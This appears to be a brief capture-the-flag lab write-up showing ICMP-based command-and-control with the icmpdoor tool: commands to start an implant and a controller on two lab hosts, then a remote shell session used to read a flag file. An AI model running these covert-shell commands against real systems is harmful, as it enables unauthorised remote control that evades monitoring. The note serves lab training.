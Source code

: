 # ICMP C2 communication

Using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool.

On icmp host:

    thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133

On jump host:

    thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
    [sudo] password for thm:
    shell: hostname
    hostname
    shell: icmp-host

Get the flag:

    shell: getFlag
    getFlag
    shell: [+] Check the flag: /tmp/flag.txt
    
    shell: cat /tmp/flag.txt
    cat /tmp/flag.txt

## Resources

* [icyguider/ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools)